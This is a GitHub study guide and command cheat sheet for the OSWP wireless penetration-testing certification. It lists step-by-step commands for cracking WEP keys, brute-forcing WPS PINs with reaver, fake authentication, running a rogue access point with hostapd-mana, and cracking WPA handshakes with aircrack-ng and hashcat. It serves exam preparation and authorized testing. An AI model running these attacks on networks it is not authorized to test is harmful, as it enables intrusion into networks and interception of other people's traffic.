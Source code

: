 # OSWP-Study-Guide
Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)

## WEP (Wired Equivalent Privacy)
WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:


### Step 1: Kill conflicting processes
```bash
sudo airmon-ng check kill
```
### Step 2: Start monitor mode on wlan0
```bash
sudo airmon-ng start wlan0
```
### Step 3: Scan for WEP networks
```bash
sudo airodump-ng wlan0mon --encrypt WEP
```
### Step 4: Capture IVs
```bash
besside-ng -c Channel -b BSSID wlan0mon
```
### Step 5: Crack WEP key
```bash
aircrack-ng ./wep.cap
```

### Additional WEP Attacks:
[Hirte Attack](https://pentestlab.blog/2015/02/03/hirte-attack/)
[Caffe Latte Attck](https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html)

## WPS (Wi-Fi Protected Setup)
WPS was originally known as Wi-Fi Simple Configuration, aiming to unify vendor technologies for secure WPA/WPA2 passphrase sharing. However, it has its set of vulnerabilities. Below are the steps to identify and exploit WPS vulnerabilities:

### Identifying access points with WPS enabled
```bash
wash -i <INTERFACE> -s
```
### Fake authentication attack
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```
### Offline brute force (pixie dust)
```bash
reaver -i wlan0 -b BSSID -SNLAvv  -c 1 -K
```
### Online brute force 
```bash
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```

## WPA/WPA2/WPA3 Testing
Steps for testing security on networks with WPA/WPA2/WPA3 encryption, including setting up rogue APs and capturing handshakes:

## Rogue Access Points
Instructions for creating a rogue AP.

### Discovery
```bash
sudo airodump-ng -w capturename –output-format pcap wlan0mon
```
**Wireshark Filters:**
```bash
wlan.fc.type_subtype == 0x08 #Broadcast Frames
wlan.ssid == “apname” #AP name
```
Filters can be appended to filter for broadcast frames from a specific AP:
```bash
wlan.fc.type_subtype == 0x08 && wlan.ssid == “apname”
```
The interesting parts are in Tag: Vendor Specific: & Tag: RSN: Information

### Creating a Rogue AP
Hostapd-mana template location:
```bash
/etc/hostapd-mana/hostapd-mana.conf
```
Or you may download the hostapd-mana.config in this repository and modify to your needs.

Start hostapd-mana:
```bash
sudo hostapd-mana hostapd-mana.conf
```

### Cracking .hccapx Files
**aircrack:**
```bash
aircrack-ng name.hccapx -w /wordlist/rockyou.txt
```
If you run into errors, you may try:
```bash
aircrack-ng name.hccapx -e ESSID -w /wordlist/rockyou.txt
```
**hashcat:**
```
hashcat -m 2500 capture.hccapx /usr/share/worlists/rockyou.txt
```

## Information Discovery Example:
Information discovery example:
```bash
- ESSID of JesusIsTheWay
- BSSID of 34:5a:90:e0:5a:30
- WPS  (AES/CCM)
- Uses a PSK
- Runs on channel 1
```

## Definitions
- AP: Access Point
- BSSID: Basic Service Set Identifier is a 48-bit number that follows MAC address conventions.
- ESSID: Extended Service Set Identifier is a unique identifier to avoid interference on a wireless network.

## Troubleshooting
- Make sure that hostapd-mana is installed on Kali. Default installations currently feature hostapd, hostapd-wpa and hostapd_cli. None of these frameworks feature the *mana_wpaout* section in the *hostapd-mana.config*, and will result in error: *unknown configuration item 'mana_wpaout'*
- When starting the exam, fist thing after connecting to the .ovpn is to test both **SSH** and **RDP** protocols to ensure connection works as intended.
- In order to list wireless interfaces, execute command:
```bash
sudo airmon-ng
```

## Sources
[LIODEUS OSWP Cheatsheet](https://liodeus.github.io/2020/10/29/OSWP-personal-cheatsheet.html)
[Hashcat File Formats](https://hashcat.net/wiki/doku.php?id=example_hashes)
[Hashcat Cracking WPA/WPA2](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
